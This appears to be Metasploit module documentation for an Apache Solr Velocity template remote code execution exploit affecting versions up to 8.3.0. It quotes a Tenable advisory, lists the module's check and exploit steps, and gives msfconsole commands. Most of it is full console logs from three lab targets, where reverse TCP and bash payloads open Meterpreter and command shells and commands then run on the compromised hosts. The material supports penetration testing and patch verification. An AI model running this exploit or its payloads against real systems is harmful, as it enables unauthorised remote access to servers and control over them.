 ## Introduction

**From the Tenable advisory**:
...an attacker could target a vulnerable Apache Solr instance by first identifying a list of Solr core names.
Once the core names have been identified, an attacker can send a specially crafted HTTP POST request to the Config API to toggle the params resource loader value for the Velocity Response Writer in the solrconfig.xml file to true.
Enabling this parameter would allow an attacker to use the velocity template parameter in a specially crafted Solr request, leading to RCE.
Currently, this vulnerability does not have a CVE assigned to it.

**Overview**
This module will carry out the following tasks in order during `check`:

1. Check if authentication is required.
2. If authentication is required and credentials are provided, attempt to authenticate using provided credentials. If successful, store creds and use them in subsequent requests.
3. Check victim's OS
4. Enumerate Solr cores
5. Check configuration of each Solr core to determine if `params.resource.loader.enabled` is `true`

And during `exploit`:

1. Run `check` to see if victim is vulnerable
2. Attempt to change `params.resource.loader.enabled` to `true` if it isn't already set to `true`
3. Check if selected target and OS of victim match. Abort if it doesn't match, continue if it does.
4. If victim's OS platform is `Windows` check for PowerShell. Abort if `PowerShell` is not present, continue if it is.
5. If victim's OS platform is `Unix` check for Bash. Abort if `Bash` is not present, continue if it is
6. Generate payload and place inside custom template
7. Exploit and gain access

Privileges gained are dependent on the user running Solr.
Currently, this module only supports basic auth.
Payload defaults to `windows/meterpreter/reverse_tcp` for Windows and `cmd/unix/reverse_bash` for Unix.

## Vulnerable Applications

- Apache Solr <= 8.3.0

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/solr_velocity_rce`
3. `set RHOST <target_ip>`
4. `set RPORT <target_port>`
5. `set USERNAME <username>` (if applicable)
6. `set PASSWORD <password>` (if applicable)
7. Ideally run `check`
8. `set TARGET` based on output of `check`
9. `set PAYLOAD <payload_name>` if you want to use other payloads
10. `set LHOST <your_ip>`
11. `set LPORT <your_port>`
12. Optional: `set VERBOSE true` to get verbose output
13. Optional: `set TARGETURI <path_to_solr>` if target system uses a different path to Apache Solr
14. `exploit` and let the shells rain


## Examples

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.16.252.129
RHOSTS => 172.16.252.129
msf5 exploit(multi/http/solr_velocity_rce) > check

[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[!] params.resource.loader.enabled for core techproducts is set to false.
[+] 172.16.252.129:8983 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 1
TARGET => 1
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 172.16.252.1
LHOST => 172.16.252.1
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 172.16.252.1:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[!] params.resource.loader.enabled for core techproducts is set to false.
[*] Targeting core 'techproducts'
[*] params.resource.loader.enabled is false, setting it to true...
[+] params.resource.loader.enabled is now set to true!
[+] PowerShell found, good to go!
[*] Sending stage (180291 bytes) to 172.16.252.129
[*] Meterpreter session 1 opened (172.16.252.1:4444 -> 172.16.252.129:50891) at 2019-12-29 11:49:39 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: 2K19DTCTR\Administrator
meterpreter >
```

### Bitnami Solr VM 8.3.0, requiring basic authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.35.130
RHOSTS => 192.168.35.130
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > check

[!] Authentication required for 192.168.35.130:80!
[*] Attempting authentication for 192.168.35.130:80...
[*] 192.168.35.130:80 - Cannot reliably check exploitability. Authentication failed!
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > check

[!] Authentication required for 192.168.35.130:80!
[*] Attempting authentication for 192.168.35.130:80...
[+] Authentication succeeded!
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[+] 192.168.35.130:80 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.35.1
LHOST => 192.168.35.1
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.35.1:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] Bash found, good to go!
[*] Command shell session 2 opened (192.168.35.1:4444 -> 192.168.35.130:59956) at 2019-12-29 11:51:52 +0800

uname -a
Linux debian 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
id
uid=999(solr) gid=1002(solr) groups=1002(solr)

```

### Docker Solr 8.2.0, no authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf5 exploit(multi/http/solr_velocity_rce) > check

[*] Found Apache Solr 8.2.0
[*] OS version is Linux amd64 5.3.0-kali3-amd64
[*] Found core(s): gettingstarted, techproducts
[+] 172.17.0.2:8983 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Found Apache Solr 8.2.0
[*] OS version is Linux amd64 5.3.0-kali3-amd64
[*] Found core(s): gettingstarted, techproducts
[*] Targeting core 'gettingstarted'
[+] Bash found, good to go!
[*] Command shell session 3 opened (172.17.0.1:4444 -> 172.17.0.2:59340) at 2019-12-29 11:55:32 +0800

uname -a
Linux 2667812695e4 5.3.0-kali3-amd64 #1 SMP Debian 5.3.15-1kali1 (2019-12-09) x86_64 GNU/Linux
id
uid=8983(solr) gid=8983(solr) groups=8983(solr)
```
